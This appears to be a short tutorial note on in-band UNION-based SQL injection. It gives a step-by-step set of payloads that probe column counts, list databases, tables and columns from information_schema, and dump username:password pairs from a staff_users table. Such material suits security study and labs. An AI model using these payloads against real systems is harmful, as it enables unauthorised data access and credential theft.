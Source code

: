 ## In-Band SQL Injections

In-Band SQL Injection is the easiest type to detect and exploit; In-Band just refers to the same method of communication 
being used to exploit the vulnerability and also receive the results, for example, discovering an SQL Injection vulnerability 
on a website page and then being able to extract data from the database to the same page.


This statement should produce an error message informing you that the UNION SELECT statement has a different 
number of columns than the original SELECT query. Add more columns if necessary
```JavaScript
1 UNION SELECT 1
```
```JavaScript
1 UNION SELECT 1,2
```
```JavaScript
1 UNION SELECT 1,2,3
```

Get the database name
```JavaScript
0 UNION SELECT 1,2,database()
```

Get all the tables in the database test
```JavaScript
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'test'
```

The information we want to retrieve has changed from table_name to column_name, the table we are querying in 
the information_schema database has changed from tables to columns, and we're searching for any rows where the 
table_name column has a value of staff_users.
```JavaScript
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

The results from the query above provide three columns for the staff_users table: id, password, and username. 
We can use the username and password columns for our following query to retrieve the user's information.

Use the group_concat method to return all of the rows into one string
```JavaScript
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```



